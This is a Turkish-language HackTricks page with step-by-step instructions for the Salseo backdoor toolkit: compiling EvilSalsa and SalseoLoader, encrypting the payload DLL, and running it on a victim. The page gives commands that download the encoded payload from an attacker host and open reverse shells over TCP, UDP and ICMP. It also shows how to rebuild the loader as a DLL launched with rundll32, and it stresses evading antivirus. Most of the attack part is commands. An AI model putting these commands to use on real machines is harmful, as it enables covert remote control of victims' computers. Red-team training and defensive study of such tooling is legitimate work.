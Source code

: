 # Salseo

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Binaries'leri Derleme

Github'dan kaynak kodunu indirin ve **EvilSalsa** ve **SalseoLoader**'ı derleyin. Kodu derlemek için **Visual Studio**'nun yüklü olması gerekmektedir.

Bu projeleri, kullanacağınız Windows kutusunun mimarisi için derleyin (Eğer Windows x64 destekliyorsa, bu mimariler için derleyin).

**Visual Studio**'da **sol "Build" Sekmesi** içindeki **"Platform Target"** kısmından **mimariyi seçebilirsiniz.**

(\*\*Bu seçenekleri bulamazsanız **"Project Tab"**'ına tıklayın ve ardından **"\<Project Name> Properties"**'e tıklayın)

![](<../.gitbook/assets/image (839).png>)

Sonra, her iki projeyi de derleyin (Build -> Build Solution) (Kayıtlarda çalıştırılabilir dosyanın yolu görünecektir):

![](<../.gitbook/assets/image (381).png>)

## Arka Kapıyı Hazırlama

Öncelikle, **EvilSalsa.dll**'yi kodlamanız gerekecek. Bunu yapmak için, **encrypterassembly.py** python script'ini kullanabilir veya **EncrypterAssembly** projesini derleyebilirsiniz:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Tamam, şimdi Salseo işlemlerini gerçekleştirmek için ihtiyacınız olan her şeye sahipsiniz: **encoded EvilDalsa.dll** ve **SalseoLoader'ın binary'si.**

**SalseoLoader.exe binary'sini makineye yükleyin. Hiçbir antivirüs tarafından tespit edilmemelidir...**

## **Arka kapıyı çalıştırma**

### **TCP ters shell almak (HTTP üzerinden encoded dll indirme)**

nc'yi ters shell dinleyicisi olarak başlatmayı ve encoded evilsalsa'yı sunmak için bir HTTP sunucusu kurmayı unutmayın.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP ters shell almak (SMB üzerinden kodlanmış dll indirme)**

nc'yi ters shell dinleyicisi olarak başlatmayı ve kodlanmış evilsalsa'yı sunmak için bir SMB sunucusu kurmayı unutmayın.
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP ters shell almak (şifrelenmiş dll zaten kurbanın içinde)**

**Bu sefer ters shell almak için istemcide özel bir araca ihtiyacınız var. İndirin:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP Yanıtlarını Devre Dışı Bırak:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Müşteriyi çalıştır:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Kurbanın içinde, salseo şeyini çalıştıralım:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoader'ı ana fonksiyonu dışa aktaran DLL olarak derleme

SalseoLoader projesini Visual Studio ile açın.

### Ana fonksiyondan önce ekleyin: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Bu proje için DllExport'ı yükleyin

#### **Araçlar** --> **NuGet Paket Yöneticisi** --> **Çözüm için NuGet Paketlerini Yönet...**

![](<../.gitbook/assets/image (881).png>)

#### **DllExport paketini arayın (Gözat sekmesini kullanarak) ve Yükle'ye basın (ve açılan pencereyi kabul edin)**

![](<../.gitbook/assets/image (100).png>)

Proje klasörünüzde **DllExport.bat** ve **DllExport\_Configure.bat** dosyaları belirdi.

### **U**ninstall DllExport

**Kaldır**'a basın (evet, garip ama bana güvenin, bu gerekli)

![](<../.gitbook/assets/image (97).png>)

### **Visual Studio'dan çıkın ve DllExport\_configure'ı çalıştırın**

Sadece **çıkın** Visual Studio'dan

Sonra, **SalseoLoader klasörünüze** gidin ve **DllExport\_Configure.bat**'ı çalıştırın.

**x64**'ü seçin (eğer x64 bir kutu içinde kullanacaksanız, benim durumum buydu), **System.Runtime.InteropServices**'i seçin ( **DllExport için Ad Alanı** içinde) ve **Uygula**'ya basın.

![](<../.gitbook/assets/image (882).png>)

### **Projeyi tekrar Visual Studio ile açın**

**\[DllExport]** artık hata olarak işaretlenmemelidir.

![](<../.gitbook/assets/image (670).png>)

### Çözümü derleyin

**Çıktı Türü = Sınıf Kütüphanesi**'ni seçin (Proje --> SalseoLoader Özellikleri --> Uygulama --> Çıktı türü = Sınıf Kütüphanesi)

![](<../.gitbook/assets/image (847).png>)

**x64** **platformunu** seçin (Proje --> SalseoLoader Özellikleri --> Derleme --> Platform hedefi = x64)

![](<../.gitbook/assets/image (285).png>)

Çözümü **derlemek** için: Derle --> Çözümü Derle (Çıktı konsolunun içinde yeni DLL'in yolu görünecektir)

### Oluşturulan Dll'i test edin

Dll'i test etmek istediğiniz yere kopyalayın ve yapıştırın.

Çalıştırın:
```
rundll32.exe SalseoLoader.dll,main
```
Eğer hata görünmüyorsa, muhtemelen işlevsel bir DLL'niz var!!

## DLL kullanarak bir shell alın

Bir **HTTP** **sunucusu** kullanmayı ve bir **nc** **dinleyicisi** ayarlamayı unutmayın.

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
